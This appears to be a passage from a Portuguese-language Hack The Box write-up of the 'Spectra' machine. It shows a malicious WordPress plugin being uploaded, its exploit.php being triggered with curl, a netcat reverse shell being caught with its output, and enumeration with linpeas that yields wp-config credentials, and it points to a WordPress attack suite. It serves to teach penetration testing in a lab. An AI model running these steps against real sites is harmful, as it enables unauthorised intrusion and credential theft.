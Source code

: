 - Selecionar o arquivo zip recém-criado e clicar no botão *Install Now*

![HTB Spectra - Installed evilplugin.zip](https://i.imgur.com/sNlvuWi.png){: .align-center}

- Assim que o request for finalizado é importante fazer a requisição para o caminho dos arquivos em que o upload foi realizado. A linha de comando abaixo realiza o request usando `curl`, mas você pode deixar uma aba do browser preparada para realizar um GET nesta mesma URL

```bash
curl -L http://spectra.htb/main/wp-content/plugins/evilplugin/exploit.php
```

Após este procedimento, deveremos receber um shell reverso na máquina conforme abaixo: :smiley:

```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.229] 43298
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7401P 24-Core Processor AuthenticAMD GNU/Linux
 08:41:48 up 4 min,  0 users,  load average: 0.26, 0.31, 0.17
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
nginx@spectra / $ id
id
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
nginx@spectra / $
```

:bulb: **Dica:** Existem maneiras mais simples de alcançar este mesmo objetivo e ainda assim não utilizar o Metasploit. Uma ferramenta disponível no Github que pode auxiliar nesta tarefa é o [n00py/WPForce: Wordpress Attack Suite (github.com)](https://github.com/n00py/WPForce), que automatiza este e outros processos para exploração de websites em WordPress
{: .notice--info}

## User flag

Após acesso inicial na máquina, iniciada enumeração utilizando o script `linpeas.sh`, onde pude revisar diversas informações, conforme listado abaixo:

- User: **nginx**, sem privilégios específicos (`uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)`)

- Sistema Operacional: **Chromium OS 11**.0_pre399094_p20200824-r6

- Publicação do conteúdo do nginx a partir do diretório `/usr/local/share/nginx/html` vide caminho dos arquivos `wp-config.php` onde as credenciais abaixo foram listadas:

  | site    | Username | Password      |
  | ------- | -------- | ------------- |
  | main    | dev      | development01 |
  | testing | devtest  | devteam01     |

- Users com console, sendo possíveis caminhos de elevação de privilégio, assim como seus privilégios:
